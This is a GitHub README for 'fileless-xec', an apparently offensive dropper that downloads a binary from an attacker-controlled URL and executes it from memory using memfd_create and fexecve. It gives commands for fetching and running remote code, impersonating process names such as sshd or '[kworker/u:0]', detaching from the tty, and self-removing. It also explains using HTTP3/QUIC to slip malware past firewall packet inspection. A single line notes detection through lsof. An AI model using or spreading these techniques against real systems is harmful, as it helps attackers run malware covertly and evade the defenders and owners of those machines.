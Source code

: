 <h1 align=center> fileless-xec 🦜</h1>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>
<br>

***Pentest use:*** `fileless-xec` is used on target machine to stealthy execute a binary file located on attacker machine

*Previously curlNExec, refactor on going*

## Short story

`fileless-xec` enable us to execute a remote binary on a local machine directly from memory without dropping them on disk

 - simple usage `fileless-xec <binary_url>` (~`curl | sh` for binaries)
 - execute binary with specified program name: `fileless-xec -n /usr/sbin/sshd <binary_raw_url>`
 - detach program execution from `tty`: ` setsid fileless-xec [...]` 

![demo](https://github.com/ariary/fileless-xec/blob/main/img/curlNexec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute <code>writeNsleep</code> binary locate on a remote machine, locally. 

We first start a python http server on remote.
Locally we use <code>fileless-xec</code> and impersonate the <code>/usr/sbin/sshd</code> name for the execution of the binary <code>writeNsleep</code>(for stealthiness & fun)

</details>

### Other use cases

* [Execute binary with stdout/stdin](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-stdoutstdin)
* [Execute binary with arguments](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-binary-with-arguments)
* [`fileless-xec` self remove](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-self-remove)
* ["Remote go": execute go binaries without having go installed locally](https://github.com/ariary/fileless-xec/blob/main/usage.md#remote-go-execute-go-binaries-without-having-go-installed-locally)
* [Bypass firewall with HTTP3](https://github.com/ariary/fileless-xec/blob/main/usage.md#bypass-firewall-with-http3)
* [Execute a shell script](https://github.com/ariary/fileless-xec/blob/main/usage.md#execute-a-shell-script)
* [`fileless-xec` server mode](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-server-mode)
* [`fileless-xec` on windows](https://github.com/ariary/fileless-xec/blob/main/usage.md#fileless-xec-on-windows)


## Stealthiness story

* The binary file is not mapped into the host file system
* The execution program name could be customizable
* Bypass 3rd generation firewall could be done with http3 support
* `fileless-xec` self removes once launched

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.

### HTTP3/QUIC
<table><tr><td>
Enable it with <code>-Q</code>/<code>http3</code>  flag. <br>
You can setup a light web rootfs server supporting http3 by running <code>go run ./test/http3/light-server.go -p LISTENING PORT</code> (This is http3 equivalent of <code>python3 -m http.server <listening_port></code>)<br>
use <code>test/http3/genkey.sh</code> to generate cert and key.

 
 </td></tr></table>
 
`QUIC` UDP aka `http3` is a new generation Internet protocol that speeds online web applications that are susceptible to delay, such as searching, video streaming etc., by reducing the round-trip time (RTT) needed to connect to a server.

Because QUIC uses proprietary encryption equivalent to TLS (this will change in the future with a standardized version), **3rd generation firewalls that provide application control and visibility encounter difficulties to control and monitor QUIC traffic**.

If you actually use `fileless-xec` as a dropper (***Only for testing purpose or with the authorization***), you likely want to execute some type of malwares or other file that could be drop by packet analysis. Hence, with Quic enables you could **bypass packet analysis and GET a malware**.

Also, in case firewall is only used for allowing/blocking traffic it could happen that **firewall rules forget the udp protocol making your requests go under the radars**

### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`fileless-xec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 

 2. Detach from tty to map behaviour of deamon process
 
`setsid fileless-xec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```
